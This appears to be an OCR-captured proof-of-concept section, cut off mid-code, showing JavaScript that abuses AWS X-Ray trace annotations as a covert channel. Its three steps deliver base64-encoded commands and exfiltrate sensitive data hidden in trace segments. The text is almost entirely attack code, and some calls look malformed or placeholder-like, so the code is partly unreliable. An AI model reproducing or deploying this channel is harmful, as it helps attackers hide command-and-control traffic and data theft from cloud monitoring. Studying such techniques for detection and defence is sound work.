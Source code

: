 ## Proof of Concept

### Step 1: Establish Covert Communication Channel
```javascript
// Malicious X-Ray trace annotation injection
const AWSXRay = require('aws-xray-sdk');
const AWS = require('aws-sdk');

// Initialize X-Ray with vulnerable configuration
AWSXRay.captureAWS(AWS);
const xray = new AWS.XRay();

// Create malicious trace segment
const maliciousSegment = new AWSXRay.Segment('service-name');
maliciousSegment.addAnnotation('health_check', 'system_info_encoded');
maliciousSegment.addAnnotation('config', Buffer.from('malicious_command').toString('base64'));

// Send trace with embedded command
const traceData = {
    TraceId: 'malicious-trace-id',
    SegmentDocuments: [JSON.stringify(maliciousSegment)]
};

await xray.putTraceSegments(traceData).promise();
```

### Step 2: Command Delivery Through Annotations
```javascript
// Command delivery via X-Ray annotations
const commandDelivery = async (command) => {
    const segment = new AWSXRay.Segment('workflow-execution');
    
    // Embed command in configuration annotation
    segment.addAnnotation('config_update', {
        command: Buffer.from(command).toString('base64'),
        timestamp: Date.now(),
        source: 'legitimate_service'
    });
    
    // Send through legitimate API call
    await xray.putTraceSegments({
        TraceId: 'workflow-trace',
        SegmentDocuments: [JSON.stringify(segment)]
    }).promise();
};
```

### Step 3: Data Exfiltration
```javascript
// Exfiltrate data through execution results
const exfiltrateData = async (sensitiveData) => {
    const segment = new AWSXRay.Segment('data-processing');
    
    // Embed data in execution result
    segment.addAnnotation('execution_result', {
        status: 'success',
        data: Buffer.from(JSON.stringify(sensitiveData)).toString('base64'),
        metadata: 'routine_processing'
    });
    
    await xray.putTraceSegments({
        TraceId: 'processing-trace',
        SegmentDocuments: [JSON.stringify(segment)]
```